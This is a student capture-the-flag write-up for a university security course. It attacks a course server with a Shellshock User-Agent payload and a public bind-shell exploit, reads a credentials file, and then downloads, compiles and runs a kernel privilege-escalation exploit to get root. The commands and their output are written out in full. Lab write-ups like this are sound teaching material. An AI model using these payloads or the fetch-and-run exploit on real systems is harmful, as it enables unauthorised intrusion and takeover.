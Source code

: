 ```yaml
---
title: Assignment 6
author:
  - Hendrik Werner s4549775
  - Aniek Den Teuling s1010747
date: \today
fontsize: 12pt
geometry: margin=5em
header-includes:
  - \usepackage{listings}
---
```


# Capture the Flag

To establish the servers IP address from the hostname we used `getent`:

```
$ getent hosts ossec-host.cs.ru.nl
131.174.142.7   ossec-host.cs.ru.nl
```

The first thing we tried, was connecting to the server via telnet, but the connection was refused:

```bash
$ telnet ossec-host.cs.ru.nl
Trying 131.174.142.7...
telnet: Unable to connect to remote host: Connection refused
```

Next we tried connecting via SSH, and there is indeed an SSH server running on the host, but connecting requires a password that we do not know:

```
$ ssh root@ossec-host.cs.ru.nl
root@ossec-host.cs.ru.nl's password:
Permission denied, please try again.
```

We can use `nmap` to scan for open ports on the host server:

```
nmap 131.174.142.7

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-10 19:00 CET
Nmap scan report for ossec-host.cs.ru.nl (131.174.142.7)
Host is up (0.073s latency).
Not shown: 937 filtered ports, 61 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 84.46 seconds
```

The only two open ports are port 22 for ssh, and port 80 for http.

We tried to exploit the Shellshock vulnerability over HTTP, but for some reason it did not work. We asked the student assistants about this, but they could not identify the problem either. The command we used was

\begin{lstlisting}[breaklines=true]
curl -H "User-Agent: () { :;}; /bin/ls" 'http://ossec-host.cs.ru.nl/cgi-bin/fortunecow.sh'`
\end{lstlisting}

The student assistants recommended downloading a ready made exploit script, so we found one on <https://exploit.db.com/exploits/34900/>, and successfully used it to get a shell on the remote host.

\begin{lstlisting}[breaklines=true]
$ python2 34900.py rhost=ossec-host.cs.ru.nl rport=12345 payload=bind pages=/cgi-bin/fortunecow.sh
[-] Trying exploit on : /cgi-bin/fortunecow.sh
[!] Successfully exploited
[!] Connected to ossec-host.cs.ru.nl
ossec-host.cs.ru.nl> uname -a
Linux ossec-host 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
ossec-host.cs.ru.nl> whoami
www-data
ossec-host.cs.ru.nl> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}

As you can see the server uses Ubuntu with Linux kernel version 3.13.0, and we do not have root privileges, and are logged in as user `www-data`.

We look for the first flag, and the credentials file, that is located in the same directory, according to the instructions:

```
ossec-host.cs.ru.nl> find / -iname flag1
/var/www/flag1
ossec-host.cs.ru.nl> ls /var/www
credentials.txt
flag1
html
ossec-host.cs.ru.nl> cat /var/www/credentials.txt
SSH
username: bob
password: ampere llama
```

Now we can log in via SSH.

If we look on Exploit DB for the kernel version, we find the following exploit: <https://www.exploit-db.com/download/37292.c>, which can be used to get root privileges.

To run the exploit, we simply log in via SSH, download the exploit code, compile it, and finally run it, then we are root:

```
# On my PC
$ ssh bob@ossec-host.cs.ru.nl
bob@ossec-host.cs.ru.nl's password:
# Now we are on the server
$ cd /tmp/
$ curl https://www.exploit-db.com/download/37292.c > exploit.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5119  100  5119    0     0   2535      0  0:00:02  0:00:02 --:--:--  2536
$ gcc -o exploit exploit.c
$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(bob)
```

The second flag is in the `/root` directory and buried in an 25 megabyte file, according to the instructions. We found the file, and copied it to out local machine using `scp`.

Looking at the file it consists of random characters, form which we have to extract the payload somehow. We tried filtering for words that consists solely of letters, and after that yielded nothing added the restriction that the words must be at least 5 characters long:

```
$ grep -oP '\b[A-Za-z]+\b' flag2
f
f
VC
fzshz
c
mi
w
y
XBj
Wxb
# lots of output omitted
grep -oP '\b[A-Za-z]{5,}\b' flag2
fzshz
FJsun
pAqdm
wJcjm
pgXucO
fcZaf
ngoea
hhnZY
xhZBsrep
Cajhst
# lots of output omitted
```

Neither of these methods revealed the hidden message in the flag.

## Flag 1

The first flag was decoded with the TOPKEK cipher, in which `KEK` stands for 0, and `TOP` stands for 1, followed by $n$ `!`s which indicate how often the digit must be repeated. We wrote a little script to translate to binary:

\begin{lstlisting}[
	breaklines = true,
	literate = {0}{{0\allowbreak}}{1}
	{0}{{0\allowbreak}}{1}
]
$ ./decode_topkek.sh flag1
01010111011101010110001001100010011000010010000001101100011101010110001001100010011000010010000001100100011101010110001000100000011001000111010101100010001000000010110100100000010100100110100101100011011010110010000001010011011000010110111001100011011010000110010101111010
\end{lstlisting}

When transalted to ASCII, the flag reads `Wubba lubba dub dub - Rick Sanchez`.
